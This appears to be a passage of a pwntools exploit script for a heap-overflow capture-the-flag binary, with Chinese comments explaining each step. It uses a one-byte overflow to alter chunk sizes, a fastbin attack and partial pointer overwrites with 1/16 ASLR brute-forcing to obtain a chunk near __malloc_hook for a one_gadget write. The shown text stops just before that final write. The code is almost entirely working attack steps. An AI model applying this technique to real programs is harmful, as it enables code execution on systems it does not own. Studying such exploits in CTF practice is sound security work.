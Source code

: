 ```python
def add(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_add))
    if add_size_words:
        sh.sendlineafter(add_size_words, str(size))
    if add_index_words:
        sh.sendlineafter(add_index_words, str(index))
    if add_content_words:
        sh.sendafter(add_content_words, content)

def delete(index=-1):
    sh.sendlineafter(choice_words, str(menu_del))
    if del_index_words:
        sh.sendlineafter(del_index_words, str(index))

def edit(index=-1, size=-1, content=''):
    sh.sendlineafter(choice_words, str(menu_edit))
    if edit_index_words:
        sh.sendlineafter(edit_index_words, str(index))
    if edit_size_words:
        sh.sendlineafter(edit_size_words, str(size))
    if edit_content_words:
        sh.sendafter(edit_content_words, content)

def leak_info(name, addr):
    success('{} => {}'.format(name, hex(addr)))

# 我需要在malloc_hook中写one_gadget
# 思路是通过fastbin attack来申请到one_gadget
sh.recv()
sh.sendline('good name')
add(index=0, size=0x18) # size 0x20
add(index=1, size=0xc8) # size 0xd0
add(index=2, size=0x60) # size 0x70

payload = b'a'*0x68 + p64(0x61)
edit(index=1, content=payload)

# free再申请回来，由此在chunk内写下main_arena+88
delete(index=1)
add(index=1, size=0xc8)

# 存在单字节溢出，通过chunk0来修改chunk1的size
edit(index=0, content=b'a'*0x18 + p8(0x71))

# 申请几个大小为0x70的chunk，目的是通过fastbin的fd指针中的堆地址来获得含有main_arena+88地址的那个fake fastbin chunk
add(index=3, size=0x60) # size 0x70
add(index=4, size=0x60) # size 0x70
delete(index=2)
delete(index=3) # fastbin: 3->2
# fastbin: chunk3 -> chunk2
# 其中chunk3的fd指针在我本次调试为0x5555556050f0，且含有main_arena+88地址的那个fake chunk的地址为0x555555605020
# 因此只修改最后一位为0x20，使其fastbin指向最后一位
edit(index=3, content=p8(0x20))

# 修改后，fastbin为chunk3 -> fake_chunk -> main_arena + 88
# 我们知道main_arena + 88和malloc_hook是很接近的，实际上是main_arena比__malloc_hook只要大0x68
# 我们又可以通过修改fake_chunk的最后两字节来获得一个包含__malloc_hook的chunk
# 在__malloc_hook之前的0x23字节处有一个0x7f，因此可以通过这个来构造
# 那么有一个明显的问题：ASLR开启时，最低位只有3位是固定的。而我们需要覆盖4位，因此这里相当于会进行一个爆破，成功概率为1/16
# 在我调试的时候，main_arena+88为0x7ffff7dd1b78，而0x7f的包含malloc_hook的fake_chunk为0x7ffff7dd1aed，因此我会覆盖最低两字节为0x1aed
edit(index=1, content=p16(0x1aed))
add(index=5, size=0x60)
```
